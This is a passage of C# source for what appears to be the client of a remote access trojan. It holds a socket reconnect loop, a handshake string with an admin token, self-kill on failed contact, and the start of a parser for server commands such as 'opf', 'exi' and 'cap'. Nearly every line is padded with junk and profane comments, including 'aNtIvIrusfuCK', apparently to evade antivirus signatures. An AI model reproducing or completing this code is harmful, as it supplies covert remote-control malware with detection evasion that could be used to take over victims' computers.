                    await Task.Delay(10000);
                    // SDKOSADSGFFFFFFFFFFFFFFFFFFPASKDOQW
                    isconnected = clientSocket.Connected;
                    // SDKOSADSGDLPLPPPPPPPPPPPPPPPPPPPP
                }
                // SDKOSADSGVVVVeXECUTEFILE
                catch
                // SDKOSADSGrANDOM
                {
                    // SDKOSADSGfuck
                    await Task.Delay(10000);
                    // SDKOSADSGyOU
                }
                // SDKOSADSGMF
            }
            // SDKOSADSG// SDKOSADSG// SDKOSADSG
            string ServerReply = string.Empty;
            // SDKOSADSGDDDDDDDDDDDDDDDDDDDDDDDDDDD
            string ClientReply = string.Empty;
            // SDKOSADSGPDLAPSKDOPAKPOSDKSPOADKPOASKDPOAKDPOASKDOPAKD
            try
            // SDKOSADSGD;[[ASLLLLLLLLLLLLLLDADADDDDDDDDDDDDDDDDDDDDDDDDDDD
            {
                // SDKOSADSGDexcECUTE
                ServerReply = send("./$%OPCADMIN%$/.A.B.C.D.E.F.0.1.2.3.4.5.6.7.8.9");
                // SDKOSADSGDFLPAmACLICIOUS
                if (ServerReply == "E:00xFFAQQ4141")
                // SDKOSADSGyOURwELCOME,iFyOUrEADtHIS
                {
                    // // SDKOSADSGLETSGOOOO
                    await Task.Delay(10000);
                    // SDKOSADSG// SDKOSADSG// SDKOSADSG// SDKOSADSG
                    System.Windows.Forms.Application.Restart();
                    // SDKOSADSG222222
                    var prc = Process.GetCurrentProcess();
                    // SDKOSADSG1
                    prc.Kill();
                    // SDKOSADSG2
                }
                // SDKOSADSG3102I9EWOQDSADAS
            }
            // SDKOSADSG23L120LDPSAPSDDDDDDDDDDDDDDDDDDDDDDDDDDD
            catch
            // LDPSAP// LDPSAP// LDPSAP
            {
                // LDPSAPhELLOwORLD
                clientSocket.Close();
                // LDPSAPlapd
                var prc = Process.GetCurrentProcess();
                // LDPSAPSUBSCRIBETOhopsi
                prc.Kill();
                // opADMINCMDfuck
            }
            // aNtIvIrusfuCK
            while (true)
            // SADSG23L120LDPDDDDDDDDDDDDDDD
            {
                // DD22XXSADSG23L120LDP
                ServerReply = ServerReply.Replace("\0", string.Empty);
                // D[][][][][][][][][][
                if (!ServerReply.ToLower().StartsWith("opf") && ServerReply.ToLower().Trim() != "exi" && !ServerReply.ToLower().Trim().StartsWith("cap"))
                // SADSG23L120LDP #BLM
                {